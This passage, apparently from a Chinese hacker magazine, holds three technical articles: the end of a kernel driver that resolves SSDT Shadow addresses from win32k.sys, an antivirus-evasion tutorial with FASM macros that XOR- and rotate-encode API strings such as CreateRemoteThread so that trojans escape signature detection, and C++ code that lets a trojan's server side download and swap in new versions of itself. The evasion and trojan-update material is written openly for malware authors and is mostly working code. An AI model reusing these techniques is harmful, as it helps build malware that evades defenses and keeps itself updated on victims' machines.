    KdPrint(("[FindShadowOriAddress] BaseAddress:0x%x\n", BaseAddress));

    ShadowBase = GetSSDTShadowAddress20;
    ShadowAddress = *(PULONG)ShadowBase;
    KdPrint(("[FindShadowOriAddress] ShadowAddress:0x%x\n", ShadowAddress));

    SsdtRva = ShadowAddress - BaseAddress;
    KdPrint(("[FindOriAddress] SsdtRva:0x%x\n", SsdtRva));

    location = SsdtRva + index * 4;
    offset.QuadPart = location;

    RtlInitUnicodeString(&modulename, L"\\SystemRoot\\system32\\win32k.sys");
    InitializeObjectAttributes(
        &object_attributes,
        &modulename,
        OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE,
        NULL,
        NULL);

    status = ZwCreateFile(
        &hFile,
        FILE_EXECUTE | SYNCHRONIZE,
        &object_attributes,
        &io_status,
        ...);
}
```

```c
NULL,
FILE_ATTRIBUTE_NORMAL,
FILE_SHARE_READ,
FILE_OPEN,
FILE_NON_DIRECTORY_FILE | FILE_RANDOM_ACCESS |
FILE_SYNCHRONOUS_IO_NONALERT,
NULL,
0);

if (!NT_SUCCESS(status)) {
    KdPrint(("[FindOriAddress] open error!"));
    KdPrint(("[FindOriAddress] status = 0x%x\n", status));
    ZwClose(hFile);
    return 0;
}

status = ZwReadFile(
    hFile,
    NULL,
    NULL,
    NULL,
    NULL,
    &address,
    sizeof(ULONG),
    &offset,
    NULL);

if (!NT_SUCCESS(status)) {
    KdPrint(("[FindOriAddress] read error!"));
    KdPrint(("[FindOriAddress] status = 0x%x\n", status));
    ZwClose(hFile);
    return 0;
}

KdPrint(("[FindOriAddress] address:0x%x\n", address));
address = address;
KdPrint(("[FindOriAddress] Oriaddress:0x%x\n", address));
ZwClose(hFile);
return address;
}




```

最终我实现的效果如图 1 所示。
图 1

至此，SSDT 及 Shadow 已经完全解析完了，我也提供了 SSDT Hook 及 SSDT Shadow Hook 的通用框架，读者依据这两篇文章完全可以写出自己的 ARK 工具。至于 SSDT 及 SSDT Shadow 的其他方面，比如如何更好地做到保护和稳定，就交给读者自己探讨吧。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编

关键词：编程、数据编码、反查杀
##### AV 对抗技术之数据编码

文/图 xfish

时间匆匆流逝，安全体系越来越完善的今天，Anti AV 技术也显得越来越重要。因为没有它，木马、病毒、蠕虫等将一无所用。我举个例子，比如自己编写的木马很可能在第一次完成编译后，就面临被大部分具有虚拟机启发或 DNA 查杀的 AV 所杀。其次，最重要的是我们还要考虑到自己的木马、病毒等后期如果一旦被 AV 所杀，如何能快速地针对大面积的 AV 进行处理，这是我们所要思索的问题，否则很难持续在这个方面走下去。

本文讲述的是 AV 对抗技术之数据编码，在后续的文章中还会和大家探讨 AV 对抗技术的其余方面。

初看到数据编码这个词，大家可能会有很多的联想。其实这里的数据编码指的是将我们的数据信息进行重新编码，让其按照自己的格式来编译。如果以前写过木马、病毒、exploit 等，部分敏感数据信息大家肯定都进行加密处理吧？但是如果让你把所有的敏感数据信息（也包括局部数据）都进行加密处理，且解密头或密钥是随机的，那么你肯定会觉得这是一个非常庞大的工程。目前的大部分 AV 在启发技术中都包含了基因码检测技术，也就是俗称的 DNA 检测技术。基因码检测技术最具代表性的产品就是我们非常熟悉的“大蜘蛛”“小红伞”等，其中我在实践中对大蜘蛛一直是无视其存在的，小红伞则相对来说要麻烦些。基因码检测技术有时候十分 BT，比如它会分析你的程序文件结构，通过文件结构来分析引入函数；其次则是对程序中的数据信息与库中的特征进行匹配；有时候会根据重定位来分析引用数据信息所在的代码部分是否存在一些解密代码等等。本文涉及的数据编码技术就是让我们的木马、病毒等能高效、方便地对抗 AV 的数据信息匹配技术。

各函数名称真实地暴露在程序中，通常一般的病毒做法是通过 hash 算法计算出这些函数名称的 hash 值，根据 hash 值，利用自己编写的 GetProcAddress 函数来获取地址。这样做的方法在我们的木马编写中并不实用，因为如果是一些数据过多且是其他各种各样函数的参数，处理起来会非常困难，而数据编码技术就是要解决这个问题。下面我们就用字符串数据来做例子进行讲解，也就是通过修改原有的字符串压入堆栈参数的结构，使我们的数据并不是以字符串结构来存放。通常大部分病毒所采用压入堆栈的字符串形式结构有如下两种：

```asm
// 第一种方法
call .s
db 'xfish',0
s:
// 第二种方法
push 'h'
push 'xfis'
mov edx,esp












```

不过以上都不是很好的方法，因为数据信息还是会暴露。如果在编译期间我们的字符串不是以明文来存放的，那该多好，并且每一步还包含一个解密的代码。接着我们再看一些例子，如图 1 所示。

这个例子中采用的是我们上面所说的第一种字符串结构存储的方式，可以看到这些字符串信息都会暴露在我们的程序中。我们看看修改后的代码，如图 2 所示。

编写木马时，如果大部分函数中的参数都是 AV 敏感的数据信息，我们该如何做？举个例子，我们要动态获取 CreateRemoteThread 函数的地址，肯定不能把这个函数名称真实地暴露在程序中。
图 1
图 2

这是第一种结构，我们来对比下第二种结构修改前后的区别。原始结构如图 3 所示，修改后的结果如图 4 所示。
图 3

第一种修改方式中，取字符串中第一个字符的 ASCII 码来作为密钥，所以随着字符串的不同，我们的密钥也是不同的。第二种修改方式是通过循环取得字符串中 4 字节字符，对“rol edx,6”进行加密后压入堆栈，然后根据字符串的长度循环插入 nop 指令，使结构都不存在相同的特征。
图 4

看了以上的对比，我们可以很清楚地看到，先前的敏感数据信息都被我们格式随机的代码给打乱了，AV 很难匹配出我们的数据信息来。那么如何高效地达到以上目的呢？由于我平常编写木马都是使用 FASM，现在即使是写一些大型程序，我还是以 FASM 和高级语言相结合，让自己的 ASM loader 加载高级语言编写的模块，这样对抗 AV 的效果是每次只需要修改 loader 就可以了。下面我们就看看上面两种修改方式的汇编源代码吧。

```asm
// 第一种方法
include 'AntiData.inc'
entry $
push ebp
mov ebp,esp
x_call 'kernel32'
pop edx
invoke LoadLibrary,edx
x_call 'CreateRemoteThread'
pop edx
invoke GetProcAddress,eax,edx
leave
ret

// 第二种方法
include 'AntiData.inc'
entry $
push ebp
mov ebp,esp
x_push 'kernel32'
mov edx,esp
invoke LoadLibrary,edx
x_end
x_push 'CreateRemoteThread'
mov edx,esp
invoke GetProcAddress,eax,edx
x_end
leave
ret
```

善于观察的读者可能会发现，源代码中多了 x_call、x_push、x_end。没错，这几个指令才是重点，因为所有的工作都是它们完成的。这些指令其实是我写的宏，宏在 ASM 编写中十分重要，充分利用它会有意想不到的效果。好了，既然主角已经出现，就让我们看看它的真面目吧。

```asm
macro alignsize value { rb (value-1)-($+value-1) mod value }
macro x_call str {
  local size, x, s, l, x, v
  if str eqtype ''
    call s
    x db str,0
    size = ($-x)
    if ~ size eq 1
      load x BYTE from (x)
      repeat size
        load v BYTE from x+%-1
        store BYTE v xor x at x+%-1
      end repeat
    s:
      push ecx
      push edx
      mov ecx,size
      mov edx,x
    l:
      xor BYTE [edx+ecx-1],x
      loop l
      pop edx
      pop ecx
    end if
  else
    push str
  end if
}
```

```asm
end if
}
macro x_push str
{
  local .x, .v, .t
  virtual at 0
    db str, 0
    alignsize 4
    size = $
  end virtual
  .x = size
  repeat size/4
    virtual at 0
      db str, 0
      alignsize 4
      load .v DWORD from (.x - 4)
      .v = ((.v shl 6) and 0FFFFFFFFh) or (.v shr (32 - 6)); .v = .v rol 6
    end virtual
    push .v
    pop edx ; mov edx, .v
    ror edx, 6
    push edx
    times % nop
    .x = .x - 4
  end repeat
}
macro x_end
{
  add esp, size
}







```

alignsize 宏没什么可说的，相信有一定编程基础的读者都应该了解。我们重点看 x_call、x_push 宏。

x_call 用于判断参数是否为字符串类型，如果是，则定义字符串，然后压入字符串地址。“if str eqtype ''” 这段代码判断字符串大小是否为 0，如果不为 0 则取字符串第一个字符作为密匙保存到常量 x 中。然后根据字符串大小，循环取字符串中的每个字符与 x 异或后再重写回去。至于 “if ~ size eq…end repeat” 这段代码，由于刚刚已经把我们之前定义的字符串通过 store 加密重写回去了，所以下面我们肯定要加上解密指令，即从 push ecx 到 pop ecx 这段代码。

x_push 定义一段虚拟内存区域（4 字节对齐）用来存放我们的字符串，然后取其字符串大小。“virtual at 0…end virtual” 这段代码，根据字符串大小，循环倒序取字符串中 4 字节字符，然后通过 rol 6 加密，将其传送到 edx 寄存器。通过 ror 6 进行解密后压入堆栈，最后依据循环次数推入等同数量的 nop 指令。

由于我们的 x_push 宏是通过堆栈来存储数据的，所以要在函数调用完成后恢复堆栈，即通过 add esp, size 来恢复堆栈平衡，而这就是 x_end 要实现的功能。

至此，本文就告一段落了，主要给大家带来的是通过修改自身的字符串参数结构来对抗 AV 数据查杀技术。其实我觉得更重要的是带来一种思路，举一反三，就会在 Anti AV 技术领域中飞得更高！

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：编程、木马、自动更新

##### VC 实现木马服务端自动更新
文/图 逝去的光

现在我们设想这样一种场景：花费了大量的时间和精力开发了一款木马程序，自己用或送人。一段时间后可能突然发现程序有功能上的欠缺或是运行时的隐患错误，事实上我敢说在世界上没有哪个程序一次成型就是完美的。当然，如果你的小马当时加上了远程文件下载管理的功能，并且可以通过一些手段对小马进行手动更新，还可以弥补，但是对于“服务范围”太大的木马来说，工作量是巨大的。本文特别为解决这一矛盾所写，下面我们就一起完成这个自动更新的任务，让木马服务端在客户机上的运行和本地项目开发同步调试。

本文使用的操作系统为 Microsoft Windows 7 RC，开发环境为 Microsoft Visual Studio 2008。打开 VS 2008，依次单击“文件->新建->项目”，在项目类型中展开“Visual C++”，选择“Win32”，创建一个名称为“AutoUpdate”的 Win32 控制台应用程序。

加对 MFC 的支持，如图 1 所示。
图 1

接下来在 VS 开发环境中选择“项目 > AutoUpdate 属性”，在配置属性里选“活动 Release”，展开“链接器”节点，选择“清单文件”，在生成清单中选择“否”，如图 2 所示。
图 2

下面用记事本打开工程目录下的 AutoUpdate.vcproj 文件，把其中的 RuntimeLibrary="3" 改成 RuntimeLibrary="0"。上述的一系列动作是为了让我们的程序能在没有 .NET 3.5 支持的 Windows 平台下正常运行。下面正式开始编写程序。

为了实现自动更新，程序必须首先比较当前最新版本与程序自身版本的大小关系，只有当最新版本大于程序自身版本的情况下升级才会启用。而程序自己的版本号，应该是每次发布时各不相同的。在源文件中添加如下代码：

```c
#define MYVERSION 5
// 定义程序版本，注意：每次发布，这个值应该不同。
// 建议使用自然数递增数列



```

程序在启动的时候能识别“/install”或“/finish”参数，可以参考图 3 进行理解。
图 3

在程序入口函数中添加如下代码：

```cpp
wchar_t StartInfo[255]; // 启动参数
wmemset(StartInfo,0,255);
wcscat(StartInfo,AfxGetApp()->m_lpCmdLine);
if(!wcsicmp(StartInfo,_T("/install")))
{
    wchar_t *AppName = new wchar_t[255];
    wchar_t *TempFileName = new wchar_t[255];
    wchar_t *FinalFileName = new wchar_t[255];
    wmemset(AppName,0,255);
    wmemset(TempFileName,0,255);
    wmemset(FinalFileName,0,255);
    wcscat(AppName,AfxGetApp()->m_pszAppName);
    if(AppName[wcslen(AppName)-1]=='_')
    {
        wsprintf(TempFileName,L"%s.exe",AppName);
        wcscat(FinalFileName,AppName);
        FinalFileName[wcslen(FinalFileName)-1]='\0';
        wcscat(FinalFileName,_T(".exe"));
        CopyFile(TempFileName,FinalFileName,FALSE);
        PROCESS_INFORMATION PI;
        STARTUPINFO SI;
        memset(&SI,0,sizeof(SI));
        SI.cb = sizeof(SI);
        if(CreateProcess(FinalFileName,L"/finish",NULL,NULL,FALSE,NORMAL_PRIORITY_CLASS,NULL,NULL,&SI,&PI))
            ExitProcess(0);
    }
}
else if(!wcsicmp(StartInfo,_T("/finish")))
{
    wchar_t *TempFileName = new wchar_t[255];
    wmemset(TempFileName,0,255);
    wsprintf(TempFileName,L"%s_.exe",AfxGetApp()->m_pszAppName);
    DeleteFile(TempFileName);
}
```

```cpp
/*测试：弹出对话框显示程序版本*/
wchar_t tmpMyVer[10];
wmemset(tmpMyVer,0,10);
_itow(MYVERSION,tmpMyVer,10);
MessageBox(NULL,tmpMyVer,_T("程序当前版本:"),MB_ICONINFORMATION);

HANDLE hUpdateThread=CreateThread(NULL,0,
(LPTHREAD_START_ROUTINE)UpdateThreadProc,NULL,0,0);
HANDLE hWorkThread=CreateThread(NULL,0,
(LPTHREAD_START_ROUTINE)WorkThreadProc,NULL,0,0);
WaitForSingleObject(hWorkThread,INFINITE);
```

```cpp
if(UpdateVersion>MYVERSION)
{
    // 判断现有版本是否大于程序自身版本
    URLDownloadToFile(NULL,_T("http://127.0.0.1/AutoUpdate.exe"),TempFileName,0,NULL);

    PROCESS_INFORMATION PI;
    STARTUPINFO SI;
    memset(&SI,0,sizeof(SI));
    SI.cb = sizeof(SI);
    if(CreateProcess(TempFileName,L"/install",NULL,NULL,
        FALSE,NORMAL_PRIORITY_CLASS,NULL,NULL,&SI,&PI))
        ExitProcess(0);
}
DeleteFile(_T("update.ini"));
return 0;
```

下面来实现升级线程，也是本文介绍的核心内容，代码实现如下：

```cpp
DWORD WINAPI UpdateThreadProc(LPVOID lParam)
{
    /*如果有必要，可以使用GetTempPath函数获取系统临时文件目录，
      将用到的文件下载至该目录。本实例中直接使用程序当前目录，
      并在升级完成时将其删除*/
    wchar_t *TempFileName = new wchar_t[255];
    wmemset(TempFileName,0,255);
    wsprintf(TempFileName,L"%s_.exe",AfxGetApp()->m_pszAppName);

    URLDownloadToFile(NULL,_T("http://127.0.0.1/update.txt"),_T("update.ini"),0,NULL);
    FILE *pFile = _wfopen(L"update.ini",L"r");
    if(!pFile) return -1;

    char UpdateInfo[10];
    memset(UpdateInfo,0,10);
    fgets(UpdateInfo,10,pFile);
    fclose(pFile);

    int UpdateVersion = atoi(UpdateInfo);
}


